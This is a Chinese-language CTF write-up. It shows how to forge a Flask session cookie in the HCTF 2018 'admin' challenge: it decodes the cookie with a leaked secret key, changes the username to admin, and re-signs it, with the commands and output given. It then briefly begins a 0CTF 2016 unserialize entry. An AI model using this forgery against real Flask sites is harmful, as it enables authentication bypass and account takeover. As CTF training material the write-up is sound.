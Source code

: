 # WEB-CTF

## [HCTF 2018]admin

登录之后查看源码发现提示，根据提示和题目名估计要让我们登录admin用户就可以得到flag。

在change password页面查看源码，发现提供了题目的源码地址

* 解法一：flask session伪造

想要伪造session，需要先了解一下flask中session是怎么构造的。
flask中session是存储在客户端cookie中的，也就是存储在本地。flask仅仅对数据进行了签名。众所周知的是，签名的作用是防篡改，而无法防止被读取。而flask并没有提供加密操作，所以其session的全部内容都是可以在客户端读取的，这就可能造成一些安全问题。

我们可以通过脚本将session解密一下:

```
python3 flask_session_cookie_manager3.py decode -s ckj123 -c "cookie中的 session .开头的字符串"
```

```
{'_fresh': True, '_id': b'0ff8efb738a1f86fbe14a1b1eb5c055b4676e8eb841de9b13fbd3e5b3dea9b42a8ffd9e93db60dd4c150c3b99ff41e148f27073680a2e5314d657eb11a77edea', 'csrf_token': b'd43c05505a1582f74baa8b4880c464fe74aa5442', 'image': b'hs16', 'name': 'admin1', 'user_id': '10'}
```

得出结果后，将name改成 admin

```
python3 flask_session_cookie_manager3.py encode -t "{'_fresh': True, '_id': b'0ff8efb738a1f86fbe14a1b1eb5c055b4676e8eb841de9b13fbd3e5b3dea9b42a8ffd9e93db60dd4c150c3b99ff41e148f27073680a2e5314d657eb11a77edea', 'csrf_token': b'd43c05505a1582f74baa8b4880c464fe74aa5442', 'image': b'Av32', 'name': 'admin', 'user_id': '10'}" -s ckj123
```

得到伪造的 session，带入即可

---


## 0CTF 2016 Unserialize


拿到题目第是进行/3目录扫描，看看都有哪些目录，结果如下：

![](img/1/3.png)
